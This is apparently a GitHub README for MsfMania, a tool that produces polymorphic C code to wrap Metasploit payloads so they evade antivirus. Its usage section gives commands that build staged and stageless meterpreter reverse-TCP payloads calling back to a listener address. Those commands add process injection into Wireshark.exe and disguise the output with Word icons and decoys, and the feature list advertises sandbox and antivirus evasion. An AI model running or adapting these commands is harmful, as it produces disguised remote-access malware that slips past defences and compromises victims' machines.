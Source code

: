 # MsfMania

MsfMania is a command line tool developed in Python, allowing to automatically produce a source code in C language that will be used to bypass antimalware before executing a metasploit payload.

Version 2.0 is the last one because the hunt for as much FUD as possible is not possible when it comes to open source tools. 
Indeed the argument "Don't send to VirusTotal.com" is not effective, often skids want to send the generated payload to infinity on the site to see if the payload is indeed FUD, except that it is a vicious circle.
This tool will be further developed if you offer me important additions or bug reports.

## Version 2.1
New features:
```
1- New usage method
2- Perfomance increase
3- User interaction removed
4- Hardest loop usage removed
```

## Requirements
- Latest version of Kali Linux
- The kali-rolling repository
- Python3

## Installation
- Git clone this repository: ```git clone https://github.com/G1ft3dC0d3/MsfMania.git```
- cd into the MsfMania folder: ```cd MsfMania```
- Run MsfMania setup: ```python3 setup.py```

## Usage
```
python3 MsfMania.py -h
```
```
python3 MsfMania.py staged x64 windows/x64/meterpreter/reverse_tcp 192.168.254.129 4444 Malware local
```
```
python3 MsfMania.py staged x64 windows/x64/meterpreter/reverse_tcp 192.168.254.129 4444 Virus remote --procname Wireshark.exe --mscript --icon mco.ico
```
```
python3 MsfMania.py stageless x64 windows/x64/meterpreter_reverse_tcp 192.168.254.129 4444 Word remote --decoy 2000 --mscript --icon word.ico
```

## Features
- x86/x64 staged/stageless windows payload meterpreter/shell.
- Cross-compiler MinGW.
- Polymorphic C source code.
- Strip with MinGW.
- Rar compression.
- Executable customizable with an icon.
- Local/Remote Thread Shellcode Injection
- Sandbox/Antivirus Evasion
